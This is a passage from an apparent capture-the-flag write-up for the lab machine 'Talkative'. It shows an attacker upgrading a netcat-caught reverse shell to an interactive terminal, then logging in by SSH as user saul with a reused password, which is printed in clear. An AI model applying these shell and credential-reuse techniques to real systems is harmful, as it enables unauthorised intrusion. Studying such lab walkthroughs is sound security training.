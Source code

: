 Since `ssh` command exists, I tried to ssh to 172.17.0.1, but it said the terminal is not working.

```bash
www-data@2fb70f59ad53:/$ ssh saul@172.17.0.1
ssh saul@172.17.0.1
Pseudo-terminal will not be allocated because stdin is not a terminal.
Host key verification failed.
```

So I upgraded it to interactive shell.

```bash
www-data@2fb70f59ad53:/$ script /dev/null -c bash
script /dev/null -c bash
Script started, output log file is '/dev/null'.
www-data@2fb70f59ad53:/$ ^Z
zsh: suspended  nc -nlvp 9001


┌──(kali㉿kali)-[~/htb/talkative]
└─$ stty raw -echo; fg
[1]  + continued  nc -nlvp 9001

www-data@2fb70f59ad53:/$ reset
reset: unknown terminal type unknown
Terminal type? screen
www-data@2fb70f59ad53:/$ 
```

Now I was able to use ssh command.
I tried all combinations of the found credentials, and the user `saul` with `matt`'s password(`jeO09ufhWD<s`) worked.

```bash
www-data@2fb70f59ad53:/$ ssh saul@172.17.0.1
The authenticity of host '172.17.0.1 (172.17.0.1)' can't be established.
ECDSA key fingerprint is SHA256:kUPIZ6IPcxq7Mei4nUzQI3JakxPUtkTlEejtabx4wnY.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Could not create directory '/var/www/.ssh' (Permission denied).
Failed to add the host to the list of known hosts (/var/www/.ssh/known_hosts).
saul@172.17.0.1's password: 
Welcome to Ubuntu 20.04.4 LTS (GNU/Linux 5.4.0-81-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

 System information disabled due to load higher than 2.0


18 updates can be applied immediately.
8 of these updates are standard security updates.
To see these additional updates run: apt list --upgradable


The list of available updates is more than a week old.
To check for new updates run: sudo apt update

saul@talkative:~$ id
uid=1000(saul) gid=1000(saul) groups=1000(saul)
saul@talkative:~$ whoami
saul
```
